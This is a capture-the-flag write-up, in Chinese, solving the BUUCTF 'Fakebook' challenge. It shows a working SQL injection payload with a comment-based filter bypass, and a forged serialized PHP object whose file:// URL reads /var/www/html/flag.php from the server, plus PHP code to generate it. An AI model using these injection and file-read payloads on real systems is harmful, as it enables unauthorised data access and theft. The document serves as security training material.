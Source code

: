# Fakebook

> 题目：BUUCTF [网鼎杯 2018]Fakebook

__0X00 审题__

打开是一个登陆页面，有进入和注册两个选项，先看进入，问我们用户名与密码，无论如何尝试回显都一样，然后注册一个用户

```
# 	username 	age 	blog
1	  admin	    111	 http://www.baidu.com
```

其中admin可以点开: the contents of his/her blog

这里需要注意一点，注点不在密码，也不在用户名上，注意观察url或者源码：

```
/view.php?no=1
```

这里有个no,验证其是否存在注点

```
no='
>>[*] query error! (You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1)
```

找到注入位置


__0x01 解题__

1. 寻找数据库，表，字段

> 大体写法与之前类似，有两个注意点

* 注1：如果通过联合注入查询会发现，union select 连用遭到了过滤（一直是no hack~），新的方法可以通过/**/绕过，或者/!SeLEct*/

* 注2：因为no是INT型的注意没有单引号引起，加上会一直判错

2. 最后找到表users中的data

得到：

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:20:"http://www.baidu.com";}
```

_一个序列化的UsersInfo_

> 根据no=1的页面猜测，序列化的类和数据库表中的字段no，username，passwd，data顺序相似，第四个字段应该就是data，（可以进行测试，即将其放置4，观察回显）


3. 存在flag.php并猜测存在于/var/www/html，目标得到其内容

```
1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}' from users#
```

4. 得到一串base64编码

```php
<?php
$flag = "flag{14a61955-43e7-431e-bdd8-6770f94c4002}";
exit(0);
```

__0x02 总结__

1. 关于注意事项与防过滤
2. 关于其他解法

* 其一：构造序列化后传参

```php
<?php
class UserInfo
{
    public $name = "1";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";
}
 
$ganyu = new UserInfo();
echo serialize($ganyu);
?>
```

> [引用](https://blog.csdn.net/qq_58784379/article/details/120548225)[详情](https://blog.csdn.net/qq_44657899/article/details/104884553)

